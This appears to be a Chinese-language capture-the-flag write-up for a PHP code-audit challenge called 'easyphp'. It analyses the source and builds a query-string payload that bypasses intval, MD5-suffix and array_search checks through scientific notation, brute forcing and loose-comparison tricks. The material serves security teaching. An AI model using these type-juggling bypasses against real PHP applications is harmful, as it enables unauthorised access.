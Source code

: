 # 题目easyphp

[![p90MwPe.md.png](https://s1.ax1x.com/2023/05/08/p90MwPe.md.png)](https://imgse.com/i/p90MwPe)

打开网页，发现是代码审计类问题，代码如下：

```php
 <?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?> 
```

## 代码分析

1. $intval(var)$：将$var$转化为数字（如果需要转化的话），提取其整数部分为返回值；

2. $substr(str,~start,~length)$：提取子字符串，从$start$索引开始，长度为$length$；

3. $json\_decode(json)$：将$json$编码的字符串转化为PHP值，默认转化为$object$，如果设置第二个参数为$true$则转化$array$；

4. $is\_numberic(var)$：检查$var$是否为数字或者数字字符串，是返回真，否则返回假；

5. $array\_search(val,~array)$：在数组中寻找键值$val$，找到则返回键值为$val$的键名；

   $array\_search()$采用的是$==$比较，我们可以通过设置$array$的键值为$0$或空数组（字符串$==0|==array()$为真）绕过检查；

## 解题过程

+ 通过分析PHP代码，我们的任务是需要构造恰当的$a,b,c$使得$\$key1,\$key2=1$，这样就会输出flag；

+ $a$的限制是整数部分大于$6~000~000$，且字符串长度小于$3$；

  显然这两个条件矛盾，低版本的PHP中$intval$可以解析科学计数法，我们可以采用科学计数法绕过；

+ $b$的限制是$md5$编码后的后$6$位等于$8b184b$；

+ $c$要求是$json$编码的数据，

  1. 键名为$m$的键值不能为数字，且大于$2022$；
  2. 键名为$n$的键值为有$2$个元素的数组，且它的第一个元素也是数组类型；
  3. 且它的元素中全部都是字符串$"DGGJ"$，使用$===$则要求必须类型是$string$；

  显然条件1的两个方面矛盾，利用PHP弱类型比较中“若数字与字符串比较，则会从头截取字符串，到不为数字字符的内容来与数字比较”；

  显然条件2, 3矛盾，所以我们需要绕过$array\_search()$的检查；

1. 构造$a$

   ```
   a=1e9 #1e9=1 000 000 000 >> 6 000 000
   ```

2. 构造$b$

   采用脚本碰撞，找到一个符合要求的值

   ```php
   <?php
       $b = 0;
       while(1)
       {
           if('8b184b' === substr(md5($b), -6, 6))
           {
               echo $b;
               break;
           }
           $b++;
       }
   ?>
   ```

   ```
   b=53724
   ```

3. 构造$c$

   ```php
   <?php
       $c = array("m"=>2023, "n"=>array(array(), 0));
       $c = json_encode($c);
       echo $c;
   ?>
   ```

   ```
   c={"m":"2023c","n":[[],0]}
   ```

+ 综上，一个可行的payload如下：

  ```
  ?a=1e9&b=53724&c={"m":"2023c","n":[[],0]}
  ```

  [![p903ofU.md.png](https://s1.ax1x.com/2023/05/08/p903ofU.md.png)](https://imgse.com/i/p903ofU)

  成功得到flag。

